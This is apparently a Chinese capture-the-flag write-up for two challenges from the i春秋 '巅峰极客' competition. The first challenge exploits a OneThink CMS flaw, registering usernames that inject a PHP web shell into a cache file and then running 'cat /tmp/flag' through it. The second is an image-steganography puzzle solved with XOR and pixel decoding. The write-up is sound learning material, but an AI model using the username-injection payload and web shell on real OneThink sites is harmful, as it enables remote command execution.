



# i春秋“巅峰极客”网络安全技能挑战赛暨自主可控安全共测大赛 WP
## A Simple CMS
看到网站是OneThink做的，百度搜了下该CMS存在[漏洞](https://www.secpulse.com/archives/55862.html)，参考文章过程即可得到flag。但是其中的缓存文件做了修改，需要在本地复现一下，确定缓存文件名。
### 0x00
扫描网站敏感目录，发现www.zip文件：


### 0x01
下载文件，在本地构建复现环境，首先删除`onethink/onethink/Application/Install/Data/install.lock`文件，然后访问`install.php`。

### 0x02
依次使用`%0a$a=$_GET[a];//` 和 <code>%0aecho &#96;$a&#96;;//</code> 注册账号，在依次登录账号，发现存在`Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php`文件，且文件内容如下：

```php
<?php
//000000000000a:4:{s:2:"u1";s:13:"Administrator";s:2:"u3";s:6:"test12";s:2:"u4";s:15:"
$a=$_GET[a];//";s:2:"u5";s:13:"
echo `$a`;//";}
?>
```
说明我们的一句话上传成功，文件名为`Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php`，该文件名不改变。

### 0x03
在服务器上重复步骤2，getshell



在tmp目录下获取flag：
```
http://ddd27aa160354000ba7eba4b621e08cd9274bde410054da1.game.ichunqiu.com/Runtime/Temp/onethink_d403acece4ebce56a3a4237340fbbe70.php?a=cat%20/tmp/flag
```

## loli
### 0x00
图片下载下来，根据题目hint（0xFF），想到使用0xFF异或整个文件，脚本如下：
```python
#!/usr/bin/env python
# coding=utf-8

def xor():
    with open('./1.png', 'rb') as f, open('xor.png', 'wb') as wf:
        for each in f.read():
            wf.write(chr(ord(each) ^ 0xff))


if __name__ == '__main__':
    xor()
```
得到文件`xor.png`。

### 0x01
使用二进制编辑器观察`xor.png`尾部，看到提示“black and white”，以及“IEND”标识，这是png的文件尾部，暗示该文件中隐藏了一个png文件。



使用 foremost 命令直接提取 （binwalk没卵用，感谢NaN师傅的提示Orz）：
```bash
foremost xor.png
ls ./output/png|grep png
00006777.png
```

### 0x02
观察png文件，可以看到色块分为11列，每列隔行的色块永远是黑色，这说明应该横向读取图片，而列中的横长条由8个小色块组成，显然其代表的是一个字节的数据。
按上述思路提取该信息：
```python
import matplotlib.image as mpimg  # mpimg 用于读取图片5:18

# png[y][x][rgb]

res_str = []
res = []


def readpng():
    png = mpimg.imread('./out.png')
    yy, xx, depth = png.shape
    for y in range(yy):
        if y % 2 == 0:
            for x in range(1, xx - 1, 9):
                _str = "0b" + str(int(png[y][x][0])) + str(int(png[y][x + 1][0])) + str(int(png[y][x + 2][0])) + str(int(png[y][x + 3][0])) + str(int(png[y][x + 4][0])) + str(int(png[y][x + 5][0])) + str(int(png[y][x + 6][0])) + str(int(png[y][x + 7][0]))
                res_str.append(_str)
                res.append(bin2hex(_str))
    print res_str
    with open('res.bin', 'wb') as f:
        for each in res:
            f.write(chr(each))


def bin2hex(_bin="0b101"):
    return int(_bin, 2) ^ 0xFF


if __name__ == '__main__':
    readpng()
    #  bin2hex("0b101")
```

生成的`res.bin`实际为文本文件，打开即可看到flag：
```bash
cat res.bin
Let's look this lyrics:The black sky hangs down,The bright stars follow,The insect winged insect flies,Who are you missing,The space star bursts into tears,The ground rose withers,The cold wind blows the cold wind to blow,So long as has you to accompany,The insect fly rests,A pair of pair only then beautiful,Did not fear darkness only fears brokenheartedly,No matter is tired,Also no matter four cardinal points.Emmmm,It looks like you don't care about this lyrics. Well, this is flag:flag{e0754197-e3ab-4d0d-b98f-96174c378a34}Let's look this lyric
```
